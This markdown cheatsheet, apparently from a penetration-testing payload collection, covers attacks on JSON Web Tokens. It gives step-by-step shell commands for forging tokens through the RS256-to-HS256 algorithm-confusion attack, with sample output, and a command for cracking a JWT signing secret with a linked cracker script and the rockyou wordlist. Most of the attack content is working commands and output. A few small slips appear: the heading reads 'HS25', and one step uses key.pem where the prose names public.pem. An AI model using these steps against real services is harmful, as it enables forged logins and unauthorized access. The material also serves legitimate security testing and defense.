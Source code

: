 # JSON Web Token cheatsheet

## Pass the JWT with curl

```shell
curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzb21lIjoicGF5bG9hZCJ9.4twFt5NiznN84AWoo1d7KO1T_yoc0Z6XOpOVswacPZg" https://hostname/api
```

## Change the algorithm from RS256 to HS25

We assume the file public.pem contains the public key, then perform the following commands to sign data

1. Convert the public key (public.pem) into HEX with this command
```shell
$ cat key.pem | xxd -p | tr -d "\\n"
2d2d2d2d2d424547494e...
```
2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited
```shell
$ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e...
(stdin)= d2db96ad118c88c5d109b6be78af7b02973635c1a0fe527184314a27fdce65f5
```
3. Convert signature (Hex to "base64 URL")
```shell
$ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('d2db96ad118c88c5d109b6be78af7b02973635c1a0fe527184314a27fdce65f5')).replace('=','')\")"
0tuWrRGMiMXRCba-eK97Apc2NcGg_lJxhDFKJ_3OZfU
```
4. Add signature to edited payload
```shell
JWT = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.0tuWrRGMiMXRCba-eK97Apc2NcGg_lJxhDFKJ_3OZfU
```

## Crack JWT key

https://github.com/Skadiia/Scripts/blob/master/JWTCracker/JWTCracker.py

Installation with pip :
```shell
# Require PyJWT
$ python JWTCracker.py -t "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzb21lIjoicGF5bG9hZCJ9.4twFt5NiznN84AWoo1d7KO1T_yoc0Z6XOpOVswacPZg" -d "/usr/share/wordlists/rockyou.txt"
[+] Secret found : secret
```
